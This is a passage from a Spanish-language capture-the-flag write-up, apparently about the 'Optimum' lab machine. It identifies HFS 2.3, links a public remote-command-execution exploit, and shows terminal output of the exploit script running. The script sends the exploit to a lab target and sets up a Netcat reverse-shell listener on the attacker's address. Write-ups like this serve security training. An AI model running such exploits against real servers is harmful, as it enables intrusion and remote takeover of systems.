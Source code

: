 ![](/assets/img/Optimum/image_1.png)
## Web Exploitation

Al buscar por la versión de `HFS 2.3` he encontrado un exploit que nos permite obtener un `remote code execution` [https://github.com/randallbanner/Rejetto-HTTP-File-Server-HFS-2.3.x---Remote-Command-Execution/tree/main](https://github.com/randallbanner/Rejetto-HTTP-File-Server-HFS-2.3.x---Remote-Command-Execution/tree/main)

```
# python3 hfs-2-3-exploit.py 
Local Host IP       : 10.10.16.16
Listen Port         : 443
Remote Host IP      : 10.129.192.202
HTTP FileServer Port: 80

[+] Checking URL Is HTTP FileServer 2.3...
[+] Target is online and appears to be HttpFileServer 2.3
[+} Building Exploit
[+] Do you want me to start a Netcat Listener for you? (Y/n): n
[+] Sending Exploit
                                                                                        

   ~/Desktop/Optimum/exploits  34s ❯ python3 hfs-2-3-exploit.py 
Local Host IP       : 10.10.16.16
Listen Port         : 4444
Remote Host IP      : 10.129.192.202
HTTP FileServer Port: 80

[+] Checking URL Is HTTP FileServer 2.3...
[+] Target is online and appears to be HttpFileServer 2.3
[+} Building Exploit
[+] Do you want me to start a Netcat Listener for you? (Y/n): y
[+] Sending Exploit
[+] Starting Netcat on Port: 4444


```